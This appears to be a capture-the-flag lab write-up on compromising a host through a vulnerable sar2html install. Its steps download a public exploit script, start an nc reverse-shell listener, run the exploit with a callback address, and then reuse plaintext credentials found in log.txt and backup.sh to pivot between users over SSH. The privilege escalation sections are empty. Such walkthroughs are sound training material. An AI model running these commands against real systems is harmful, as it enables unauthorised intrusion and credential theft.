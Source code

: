 


## Lateral Movement vector
- Using password found in file under www-data we gain access to another user *basterd*




---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Steps
1. Vulnerable application found at:
```bash
http://10.10.10.10/joobla/_test
```
- **sar2html**

2. Download exploit for shell:
```bash
wget https://raw.githubusercontent.com/AssassinUKG/sar2HTML/main/sar2HTMLshell.py
```

3. Start a [[rlwrap]] listener:
```bash
rlwrap -cAr nc -lvnp 9001
```

4. Run **sar2HTMLshell.py** exploit:
```bash
python sar2HTMLshell.py -ip 10.10.10.10/joomla/_test -rip 10.13.0.100:9001
```

5. Check files in local directory after shell opens and we find **log.txt** that contains a user and password:
```bash
basterd : superduperp@$$
```
- Trying on SSH and it connects us!

6. Checking files under new user **basterd** and find a file **backup.sh** that contains another user and password:
```bash
stoner : superduperp@$$no1knows
```
- Sign into new user stoner!
